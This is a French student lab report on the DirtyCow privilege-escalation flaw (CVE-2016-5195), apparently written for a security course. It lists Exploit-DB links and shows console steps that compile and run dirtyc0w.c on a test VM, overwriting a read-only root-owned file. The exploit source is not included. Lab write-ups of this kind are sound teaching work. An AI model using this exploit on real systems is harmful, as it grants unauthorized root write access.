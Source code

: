# Rapport Exercice 1 SLB

## Auteurs

- Harun Ouweis
- Rayburn Nathan
- Mouti Amir

## Objectif

L'objectif de cet exercice est de démontrer la vulnérabilité DirtyCow (CVE-2016-5195) sur une machine virtuelle Ubuntu. Nous allons explorer les exploits disponibles, tester leur exécution, et documenter les résultats à l'aide de captures d'écran avec explications détaillées. Ce travail vise à renforcer notre compréhension des failles de sécurité bas niveau et des mesures d'exploitation correspondantes.

## Livrables

1. **URL de la CVE liée à DirtyCow :**
   - [CVE-2016-5195 - DirtyCow (Mitre)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195)

   - [CVE-2016-5195 - DirtyCow (Exploit DB)](https://www.exploit-db.com/search?cve=2016-5195)
  
   - [github - DirtyCow Exploit](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

2. **URLs des exploits sur Exploit-DB :**
   - [Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40847)
   - [Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40838)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)](https://www.exploit-db.com/exploits/40616)
   - [Dirty COW' /proc/self/mem Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40611)

3. **Procédure de production et d'exécution de l'exploit :**
   - **Étape 1 : Téléchargement de l'exploit**
     - Le code source de l'exploit a été téléchargé depuis le github et enregistré sur la machine virtuelle.
   - **Étape 2: Suivre les commandes de la console ci-dessous**

### Étape 2
Open a new console and connect to root. 

**Create a file with only root access and set the correct rights.**
```bash
$ sudo -s                        # change to root user
$ echo this is not a test > foo  # create file + content            
$ chmod 0404 foo                 # change file rights
$ ls -lah foo                    # display root access rights 
-r-----r-- 1 root root 19 Sep 24 14:32 foo
$ cat foo                        # Check content
this is not a test               
```

Open a new console as a normal user.

**Run the DirtyC0w exploit**
```bash
$ gcc -pthread dirtyc0w.c -o dirtyc0w # compile the .c file into a binary executable
$ ./dirtyc0w foo m00000000000000000   # execute the exploit with dest file and what we want to put inside it.
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo                              # display the content
m00000000000000000
```

![alt text](image.png)

## Conclusion

